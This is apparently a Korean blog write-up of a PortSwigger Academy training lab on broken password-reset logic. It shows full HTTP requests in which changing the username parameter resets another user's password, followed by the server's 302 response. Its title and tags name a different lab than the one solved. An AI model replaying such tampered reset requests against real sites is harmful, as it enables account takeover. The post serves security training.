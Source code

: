 ```yaml
---
layout: post
title: "Burp Academy-인증(Authentication) 취약점: Username enumeration via subtly different responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, OAuth취약점]
toc: true
---
```


# 개요
- 인증(Authentication)에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/authentication/other-mechanisms
- 문제 주소: : https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic
- 난이도: APPRENTICE (쉬움)

# 랩설명
패스워드 리셋 기능에 취약점이 있다. 이 것을 이용해서 calors 계정에 로그인한다. 

```
This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```

# 패스워드 재설정 과정 
패스워드 재설정 과정을 살펴본다.   
로그인 화면의 Forgot password? 버튼을 누르면 패스워드를 재설정할 수 있다. 

![패스워드 재설정 링크](/images/burp-academy-authn-3-1.png)

wiener를 입력하면 등록 이메일 주소로 패스워드 변경할 수 있는 링크가 전송된다. 

![패스워드 재설정 링크](/images/burp-academy-authn-3-4.png)

링크를 누르면 해당 유저의 패스워드를 재설정할 수 있다. 

![패스워드 재설정](/images/burp-academy-authn-3-5.png)

이 때의 HTTP요청은 다음과 같다. username 파라메터에 wiener 라는 계정명이 있는 것을 알 수 있다. 

```http
POST /forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo HTTP/2
Host: 0a3100a20303d26980695dee00db0032.web-security-academy.net
Cookie: session=qhlQrv3l9EcFoezCcIEiNfgiU3H3j745
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3100a20303d26980695dee00db0032.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3100a20303d26980695dee00db0032.web-security-academy.net/forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo&username=wiener&new-password-1=12345&new-password-2=12345
```


# carlos유저의 패스워드 재설정
username을 carlos로 변경하고 요청해보면 302응답이 회신되는 것을 알 수 있다. 패스워드를 재설정이 성공한 것 같다. 

```http
POST /forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo HTTP/2
Host: 0a3100a20303d26980695dee00db0032.web-security-academy.net
Cookie: session=qhlQrv3l9EcFoezCcIEiNfgiU3H3j745
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3100a20303d26980695dee00db0032.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3100a20303d26980695dee00db0032.web-security-academy.net/forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo&username=carlos&new-password-1=12345&new-password-2=12345
```


```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=KeImI4omqFQeLHsGAyI4BRGmMAXVrDSp; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

변경된 패스워드를 사용해서 carlos유저로 로그인하면 로그인이 되는 것을 알 수 있다. 그리고 문제 풀이에 성공했다는 메세지가 출력된다. 

![성공](/images/burp-academy-authn-3-success.png)